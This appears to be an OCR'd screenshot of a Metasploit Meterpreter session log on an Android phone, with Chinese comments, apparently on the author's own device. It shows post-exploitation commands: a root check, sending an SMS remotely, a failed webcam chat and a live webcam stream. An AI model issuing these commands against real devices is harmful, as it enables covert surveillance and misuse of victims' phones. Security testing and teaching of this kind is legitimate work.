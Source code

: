 #系统信息
meterpreter > sysinfo
Computer : localhost
OS : Android 7.1.2 - Linux 3.18.31-gc725c42 (aarch64)
Meterpreter : java/android

#查看 root 状态
meterpreter > check_root
[+] Device is rooted

#发送短信
meterpreter > send_sms
[-] You must enter both a destination address -d and the SMS text body -t
[-] e.g. send_sms -d +351961234567 -t "GREETINGS PROFESSOR FALKEN."

OPTIONS:

    -d  <opt>  Destination number
    -dr        Wait for delivery report
    -h         Help Banner
    -t  <opt>  SMS body text

meterpreter > send_sms -d +8610086 -t "我是你爸爸"
[+] SMS sent - Transmission successful

meterpreter > #网页视频聊天（我手机没合适浏览器没打开）
meterpreter > webcam_chat
[*] Webcam chat session initialized.
[-] Error running command webcam_chat: RuntimeError Unable to find a suitable browser on the target machine

#网页摄像头视频流，显示实时画面
meterpreter > webcam_stream
[*] Starting...
[*] Preparing player...
[*] Opening player at: lwqAtUFm.html
[*] Streaming...
